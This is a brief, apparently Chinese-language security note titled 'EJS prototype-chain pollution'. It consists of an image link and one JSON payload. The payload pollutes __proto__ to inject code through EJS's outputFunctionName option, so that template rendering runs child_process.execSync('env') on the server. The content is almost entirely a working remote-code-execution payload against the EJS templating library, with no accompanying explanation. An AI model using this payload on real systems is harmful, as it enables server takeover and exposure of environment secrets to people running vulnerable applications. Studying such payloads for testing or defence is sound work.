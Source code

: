 - EJS原型链污染
- payload:
	- ```json
	  {"__proto__":{"__proto__":{"outputFunctionName":"__tmp1; return global.process.mainModule.constructor._load('child_process').execSync('env'); __tmp2"}}}
	  ```